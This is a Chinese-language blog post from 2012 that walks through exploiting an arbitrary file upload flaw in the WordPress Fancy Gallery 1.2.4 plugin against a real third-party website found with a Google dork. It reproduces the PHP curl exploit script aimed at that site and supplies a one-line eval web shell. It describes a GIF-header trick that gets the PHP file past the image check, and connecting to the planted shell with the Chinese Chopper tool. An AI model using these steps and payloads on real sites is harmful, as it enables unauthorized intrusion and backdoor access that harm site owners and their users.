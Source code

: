title: "Wordpress Fancy Gallery Plugin 1.2.4 漏洞利用"
id: 83
date: 2012-07-02 00:49:58
tags: 
- wordpress漏洞
categories: 
- 原创作品
- 技术文章
---

睡觉前习惯性的上http://www.exploit-db.com/看看有没有什么新出的漏洞，

刚好看到一个Wordpress Fancy Gallery Plugin 1.2.4的上传漏洞

额，其实如果是注入漏洞的话我就不看了，上传漏洞一般就是直接能够上传自己的shell后门，这样比较省事。

先找一个有fancy gallery plugin的漏洞网站，google关键词：inurl:/wp-content/plugins/radykal-fancy-gallery/

随便点击一个进去看了看：http://progressivepulse.com 发现这个网站确实存在此插件并且有列目录漏洞

[![](http://asset.creturn.com/asset/uploads/2012/07/pro1.png "pro1")](http://asset.creturn.com/asset/uploads/2012/07/pro1.png)
<!--more-->
可以看到目录中的文件。

下载网站上面的exp  PHP的：http://www.exploit-db.com/exploits/19398/

代码：

```php

##################################################
# Description : Wordpress Plugins - Fancy Gallery Arbitrary File Upload Vulnerability
# Version : 1.2.4
# link : http://codecanyon.net/item/fancy-gallery-wordpress-plugin/400535
# Price : 18$
# Date : 22-06-2012
# Google Dork : inurl:/wp-content/plugins/radykal-fancy-gallery/
# Site : 1337day.com Inj3ct0r Exploit Database
# Author : Sammy FORGIT - sam at opensyscom dot fr - http://www.opensyscom.fr
##################################################

Exploit :

<?php

$uploadfile=&quot;lo.php&quot;;   //$uploadfile=&quot;lo.php.gif&quot;; 原来的名字

$ch =
curl_init(&quot;http://progressivepulse.com/wp-content/plugins/radykal-fancy-gallery/admin/image-upload.php&quot;);

curl_setopt($ch, CURLOPT_POST, true);
curl_setopt($ch, CURLOPT_POSTFIELDS, array('file[]'=&gt;&quot;@$uploadfile&quot;));
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
$postResult = curl_exec($ch);
curl_close($ch);

print &quot;$postResult&quot;;
?>

```

看下代码说明：

```php

curl_init("http://progressivepulse.com/wp-content/plugins/radykal-fancy-gallery/admin/image-upload.php");
```

这个是目标地址，把你找到的网址替换到就可以了

根据代码提示需要上传一个后门文件lo.php.gif

那好吧就上传一句话

```php
<?php @eval($_POST['cmd']);?>
```

运行exp : php exp.php

结果悲剧的发现提示非图片文件 file is not a image:

[![](http://asset.creturn.com/asset/uploads/2012/07/pro2.png "pro2")](http://asset.creturn.com/asset/uploads/2012/07/pro2.png)

好吧那就上图马吧，图马我向大家都知道我就不多说了。再次上传，提示成功，但是接下来心拔凉拔凉的，看到

提示说上传确实成功了但你上传上去的还是是gif格式的文件你让我情何以堪。本以为会自动重命名为php...

本站点又不是nigx更不存在那个解析漏洞~~  放弃？肯定不愿意么。那好吧，试试直接上传php文件，结果提示

也是上面的那个非图片文件。头部加入图片的头文件能跳过验证不，试试头部加入gif图片的头部信息：

[![](http://asset.creturn.com/asset/uploads/2012/07/pro3.png "pro3")](http://asset.creturn.com/asset/uploads/2012/07/pro3.png)

然后再次上传试试看看成功与否：

[![](http://asset.creturn.com/asset/uploads/2012/07/pro4.png "pro4")](http://asset.creturn.com/asset/uploads/2012/07/pro4.png)

看到图片上面提示成功，并且是php的文件。那么菜刀连接看看~~

[![](http://asset.creturn.com/asset/uploads/2012/07/pro5.png "pro5")](http://asset.creturn.com/asset/uploads/2012/07/pro5.png)

看到这里，不用我再说了吧。ok 后面的你们懂得。
